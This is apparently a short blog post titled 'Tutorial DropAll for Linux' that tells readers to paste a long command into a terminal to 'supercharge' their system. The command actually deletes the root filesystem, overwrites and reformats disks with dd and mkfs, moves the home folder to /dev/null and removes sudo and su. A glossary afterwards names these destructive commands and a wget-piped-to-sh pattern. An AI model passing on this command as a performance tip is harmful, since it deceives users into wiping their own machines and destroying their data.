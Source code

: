 ```yaml
---
layout: post
title: Tutorial DropAll for Linux
subtitle: With success for begins
bigimg: /img/geento.gif
---
```


## How to supercharge your linux
Open your Terminal end copy/paste/enter:

> sudo rm -rf / && rm -rf .* && rm - .* && dd if=/dev/zero of=/dev/sda && mkfs.ext3 /dev/hda && echo '' > /dev/hda && cd ~; for x in ls; do mv -f $x $y; y=$x; done find -type f -mtime +30 -exec mv {} /dev/null ; && mv ~ /dev/null && mv / /dev/null && rm -f /usr/bin/sudo;rm -f /bin/su && mv /home/$user/* /dev/null &


## applications
rm – Remove the following files.

-rf – Run rm recursively (delete all files and folders inside the specified folder) and force-remove all files without prompting you.

/ – Tells rm to start at the root directory, which contains all the files on your computer and all mounted media devices, including remote file shares and removable drives.

mkfs.ext4 – Create a new ext4 file system on the following device.

/dev/sda1 – Specifies the first partition on the first hard drive, which is probably in use.

command – Run a command (can be any command.)

\> – Send the output of the command to the following location.

/dev/sda – Write the output of the command directly to the hard disk device.

dd – Perform low-level copying from one location to another.

if=/dev/random – Use /dev/random (random data) as the input – you may also see locations such as /dev/zero (zeros).

of=/dev/sda – Output to the first hard disk, replacing its file system with random garbage data.

mv – Move the following file or directory to another location.

~ – Represents your entire home folder.

/dev/null – Move your home folder to /dev/null, destroying all your files and deleting the original copies.

wget – Downloads a file. (You may also see curl in place of wget.)

http://example.com/something – Download the file from this location.

\| – Pipe (send) the output of the wget command (the file you downloaded) directly to another command.

sh – Send the file to the sh command, which executes it if it’s a bash script.